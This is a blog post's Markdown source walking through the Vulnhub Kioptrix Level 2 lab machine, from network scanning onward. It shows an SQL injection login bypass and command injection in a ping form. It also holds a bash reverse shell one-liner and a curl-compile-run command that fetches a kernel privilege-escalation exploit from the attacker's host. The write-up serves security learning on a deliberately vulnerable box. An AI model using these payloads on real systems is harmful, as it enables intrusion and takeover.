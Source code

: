 ```yaml
---
layout: single
title: "Vulnhub - Kioptrix2"
categories:
  - Vulnhub
header:
  overlay_image: /assets/img/thumbnails/thmbn-01.jpg
  caption: "[__Vulnhub__](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)"
excerpt: "Hack the planet!"
related: true
comments: true
---
```


# Intro
Hey guys, in this post I'll try and show you how to solve Level 2 Kioptrix machine. This is a first blog and there is heavy ongoing experimentation with Jekyll markup, so expect some aesthetical errors and uneven parts or padding.
Without further a do, let's start. 

# Scanning, enumeration and exploitation
Run netdiscover to find the IP of our needed machine:

```console
root@EdgeOfNight:~# netdiscover 

 Currently scanning: 192.168.45.0/16   |   Screen View: Unique Hosts           
                                                                               
 9 Captured ARP Req/Rep packets, from 7 hosts.   Total size: 540               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.0.1       [REDACTED]          2      120  Compal Broadband Networks, I
 192.168.0.54      [REDACTED]          2      120  AzureWave Technology Inc.   
 192.168.0.87      [REDACTED]          1      60  Kaonmedia CO., LTD.         
 192.168.0.115     [REDACTED]          1      60  PCS Systemtechnik GmbH      
 192.168.0.234     [REDACTED]          1      60  Apple, Inc.                 
 192.168.0.53      [REDACTED]          1      60  Hon Hai Precision Ind. Co.,L
 192.168.0.101     [REDACTED]          1      60  Hon Hai Precision Ind. Co.,L
```

By digging around a bit I've found out that Kioptrix has been assined an IP of **192.168.0.115** !

As always it's important to find as much information about our target as possible and therefore I decided to run an nmap Scan.

```console
root@EdgeOfNight:~# nmap -A -T5 -sS 192.168.0.115
Starting Nmap 7.60 ( https://nmap.org ) at 2017-10-03 21:26 BST
Nmap scan report for 192.168.0.115
Host is up (0.00020s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http       Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            915/udp  status
|_  100024  1            918/tcp  status
443/tcp  open  ssl/https?
|_ssl-date: 2017-10-04T00:27:31+00:00; +4h00m02s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
631/tcp  open  ipp        CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql      MySQL (unauthorized)
MAC Address: 08:00:27:81:47:B7 (Oracle VirtualBox virtual NIC)
Device type: general purpose|media device
Running: Linux 2.6.X, Star Track embedded
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:2.6.23 cpe:/h:star_track:srt2014hd
OS details: Linux 2.6.9 - 2.6.30, Star Track SRT2014HD satellite receiver (Linux 2.6.23)
Network Distance: 1 hop

Host script results:
|_clock-skew: mean: 4h00m01s, deviation: 0s, median: 4h00m01s

TRACEROUTE
HOP RTT     ADDRESS
1   0.20 ms 192.168.0.115

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 121.00 seconds
```

We get hits on different ports such as 22 [SSH], 80 [HTTP], 111 [RPC bind], 3306 [MYSQL] and more.  Because our target is running an HTTP web server we put the IP in a browser which results in this page:

<img src="/assets/img/blog/vulnhub-kioptrix2/Kioptrix2-01.JPG">

This seems like a custom, lazy-made login function. Normally I wouldn't try and break login pages & their authentication in the first stage of enumeration, but because of the cheap look, an attempt for [SQL injection](https://www.w3schools.com/sql/sql_injection.asp) won't hurt. And indeed, a simple `' or 1=1#` did the trick!  Login has been successfully bypassed and we are presented with yet another challenge!  

<img src="/assets/img/blog/vulnhub-kioptrix2/Kioptrix2-02.JPG">

From enough completed challenges and CTFs I immediately recognized a possible code injection vulnerability. Let me explain. Our current webapp prompts us to enter a machine to ping. If you think about what's happening inside our target, a command like this is parsed: `ping Entered_IP`. Seems harmless, right? Well, no it is not! A character like "semicolon" (;) or "OR" can be used to append a terminator to the preset ping command which changes a query from `ping ENTERED_IP` to  `ping ENTERED_IP; malicious input`. This effectively allows for code execution which makes us able to enter any command we like into our designated machine. 

<img src="/assets/img/blog/vulnhub-kioptrix2/Kioptrix2-03.JPG">

An attempt to estabilish a reverse shell with netcat was made, but as it appears, our target doesn't  have it. Luckily, there was another trick up my sleeve - `; bash -i >& /dev/tcp/192.168.0.213/4444 0>&1`. This is just another way of telling a computer to connect back to you. Of course before doing this we need to ready our netcat listener. `nc -lvp 4444`

<img src="/assets/img/blog/vulnhub-kioptrix2/Kioptrix2-04.JPG">	
			 
`lvp - listen, verbose, port`

BOOM! 
If you are interested in doing more research in this topic I highly suggest this article: <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>


# Post Exploitation
Feels good once you get that shell, doesn't it? Non the less, we need to escalate our privileges and  pwn the server as a whole - not just as apache. Time to snoop around!

There are 2 users in the home directory (john and harold), however both of them have restriced home folders which we can not access. A search for uncommon misconfigurations such as writable passwd or shadow file yielded no result. After a while during my system enumeration I spotted that the kernel is pretty outdated. 
`uname -a` results in  `Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux`

Last compiled in 2007? This possibly opens up a privilege escalation vulnerability. After the finding, google search or exploitdb can be used for locating a corresponding kernel exploit. File of interest: <https://www.exploit-db.com/exploits/9545/>. Usually it's a good practice to avoid kernel exploitation as this opens up many dangers such as crashing or corrupting the machine. Always make sure there are no other options before trying kernel exploitation!

I decided to download the code onto my machine, host it on apache 2 webserver and make the victim download it via the previously gained shell. Here are the steps:

##### Our machine (where exploit.c is the file you downloaded):
```console
root@EdgeOfNight:~# mv /root/Downloads/privesc.c /var/www/html/ && /etc/init.d/apache2 start
[ ok ] Starting apache2 (via systemctl): apache2.service.
```
`mv - moves privesc.c file from Downloads to /var/www/html`

`/etc/init.d/apache2 start - starts apache web server on our machine which makes privesc.c file downloadable by accessing our IP address`

`&& - just executes the 2 commands after each other`


##### Kioptrix machine:
```console
cd /tmp && id && curl 192.168.0.213/exploit.c -o exploit.c 2> /dev/null && gcc exploit.c && ./a.out 
```

<img src="/assets/img/blog/vulnhub-kioptrix2/Kioptrix2-05.JPG">

`cd /tmp - changes directory into tmp`

`id - prints user information before privilege escalation`

`curl IP/exploit.c - makes an HTTP request to our machine where /exploit.c is path to corresponding exploit, -o saves the output of the request`

`gcc exploit.c - compiles our C code using GCC`

`./a.out - runs the compiled binary from GCC (every compiled file by this compiler has default output name of a.out)`

## <centre>Congratulations! The box has been rooted!</centre>


# Conclusion
A solid box with a lot of hidden knowledge for new people entering infosec community. There are always things to learn no matter how many times you do them - same with this box. Personally I found this challenge quite easy, but enjoyed it non the less. My thanks goes to the creator for making such an awesome box.

Have any suggestions or feedback? Write it down below in the comments or send me a message on twitter!

~V3
